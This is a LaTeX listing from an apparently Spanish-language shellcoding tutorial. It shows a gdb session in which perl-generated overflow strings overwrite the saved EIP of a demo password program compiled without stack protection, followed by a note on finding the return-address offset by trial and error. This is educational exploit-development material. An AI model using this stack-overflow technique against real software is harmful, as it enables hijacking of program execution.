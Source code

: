 \documentclass [titlepage, 12pt]{article}
\begin{document}
\begin{listing}[style=consola, numbers=none, caption=Modificaci\'on del registro $eip$]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gcc -g passwordProtectedAmpliado.c -o passwordProtectedAmpliado -fno-stack-protector
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedAmpliado
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado...hecho.
(gdb) run `perl -e 'print "A" x 155'`
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 155'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run `perl -e 'print "A" x 145'`
The program being debugged has been started already.
Start it from the beginning? (y o n) y

Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 145'`

Program received signal SIGSEGV, Segmentation fault.
0x08040041 in ?? ()
(gdb) run `perl -e 'print "A" x 144 . "ABCD"'`
The program being debugged has been started already.
Start it from the beginning? (y o n) y

Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedAmpliado `perl -e 'print "A" x 144 . "ABCD"'`

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 18870] will be killed.

¿Salir de cualquier modo? (y o n) y
\end{listing}
\bigskip
El m\'etodo utilizado para descubrir la ubicaci\'on de la direcci\'on de retorno ha sido de prueba y error. En vez de ir probando diferentes par\'ametros para descubrir c\'omo sobreescribir la direcci\'on de retorno, se podr\'ia haber desensamblado el ejecutable tal y como se hizo en el apartado donde se estudiaba la construcci\'on del marco de pila y haber podido descubrir la direcci\'on de memoria exacta donde se ubicaba la direcci\'on de retorno. \bigskip
\end{document}
